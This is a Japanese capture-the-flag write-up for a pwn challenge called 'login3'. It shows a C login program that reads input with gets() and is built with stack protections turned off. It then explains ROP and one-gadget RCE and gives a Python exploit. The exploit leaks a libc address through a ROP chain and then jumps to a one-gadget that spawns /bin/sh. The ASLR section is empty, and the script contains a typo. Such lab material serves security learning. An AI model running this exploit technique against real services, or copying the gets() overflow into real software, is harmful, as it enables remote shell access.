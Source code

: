 # login3
## ソースコード
```c
//  gcc login3.c -o login3 -fno-stack-protector -no-pie -fcf-protection=none
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char *gets(char *s);

void setup()
{
    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main()
{
    char id[0x20] = "";

    setup();

    printf("ID: ");
    gets(id);

    if (strcmp(id, "admin") == 0)
        printf("Login Succeeded\n");
    else
        printf("Invalid ID\n");
}
```
## 問題の概要
パスワードは要求されず、IDとしてadminを入力するとログインできるがflagは出力されない。  
そもそもフラグを読み込んでいないので、どこに処理を飛ばしてもフラグを得ることはできない。  
そこで、/bin/shを実行して、コマンドを実行できるようにしてflagを探す。  


## One-gadget RCE
One-gadget RCE(Remote Code Execution)とは、libcに存在するガジェットで、そこに実行を移すだけで/bin/shが起動するアドレス。  
ここでガジェットとは、後述の、ROP(Return-oriented programming)で使用できる一塊の処理のことを指す。


## ASLRとその回避


## Return-oriented programming
Return-oriented programmingとは、スタックバッファオーバーフローから、関数の呼び出しやret直前のアドレスへのジャンプを重ねて目的の処理を実行する手法。  

## 攻略
login3のmain関数の実行時のスタックの内容は以下の通り。

|アドレス|サイズ|内容|
|:---|:---|:---|
|rdp-0x20|0x20|id|
|rdp|0x08|古いrdpの値|
|rdp+0x8|0x08|main関数からの戻り先のアドレス|  
これを以下のように書き換える。

|アドレス|サイズ|値|内容|
|:---|:---|:---|
|rdp-0x20|0x20|aaaa...|id|
|rdp|0x08|aaaa...|古いrdpの値|
|rdp+0x8|0x08|0x4012d3|pop rdi; ret|
|rdp+0x10|0x08|0x404020|GOT の printf|
|rdp+0x18|0x08|0x401030|PLT の puts|
|rdp+0x20|0x08|0x4011e1|main|  
二回目のスタックバッファオーバーフローではrdp+0x8をOne-gadget RCEのアドレスに書き換える。  

問題サーバーのlibc-2.31.soをダウンロードして、printf関数とOne-gedget RCEのアドレスを調べる。  
その際、OneGadget(https://github.com/david942j/one_gadget)と呼ばれるツールを使用する。  
```
objdump -T libc-2.31.so | grep ' printf'
bundle exec one_gadget /path/to/libc-2.31.so
```

```
:
0xe6af1 execve("/bin/sh", r15, rdx)
constraints:
[r15] == NULL || r15 == NULL
[rdx] == NULL || rdx == NULL
:
```
上記ガジェットを使用する。
## 攻略
ROPによる攻撃をPython3で実装する。
```python
import socket, time, struct, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 10003))

ime.sleep(1)
print(s.recv(1000))
s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', 0x4012d3) + # pop rdi
    struct.pack('<Q', 0x404020) + # printf
    struct.pack('<Q', 0x401030) + # puts
    struct.pack('<Q', 0x4011e1) + # main
    b'\n')

time.sleep(1)
d = s.recv(1000)
print(d)
printf = struct.unpack('<Q', d.split(b'\n')[1].ljust(8, b'\0'))[0]
print('printf: %x'%printf)

rce = (printf
    - 0x64e10 # printf
    + 0xe6af1) # One-gadget RCE

s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', rce) +
    b'\n')

t = telnetlib.Telnet()
t.sock = s
t.interact()

```
